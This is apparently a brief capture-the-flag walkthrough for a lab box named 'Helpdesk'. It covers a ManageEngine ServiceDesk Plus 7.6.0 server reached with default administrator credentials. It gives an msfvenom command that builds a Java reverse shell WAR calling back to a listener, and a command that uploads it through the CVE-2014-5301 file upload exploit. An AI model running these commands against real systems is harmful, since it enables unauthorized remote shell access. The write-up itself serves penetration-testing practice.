 # Helpdesk

### Enumeration

http://192.168.112.43:8080/ - ManageEngine ServiceDesk Plus 7.6.0

Default credentials -> administrator:administrator

ManageEngine (Multiple Products) - (Authenticated) Arbitrary File Upload (Metasploit)

[https://www.exploit-db.com/exploits/35845](https://www.exploit-db.com/exploits/35845)

Not msf -> [https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py)

### Access

```
$ msfvenom -p java/shell_reverse_tcp LHOST=192.168.49.112 LPORT=80 -f war > shell.war
```

> Script usage: python3 CVE-2014-5301.py HOST PORT USERNAME PASSWORD WARFILE

```
$ python3 CVE-2014-5301.py 192.168.112.43 8080 administrator administrator shell.war
```
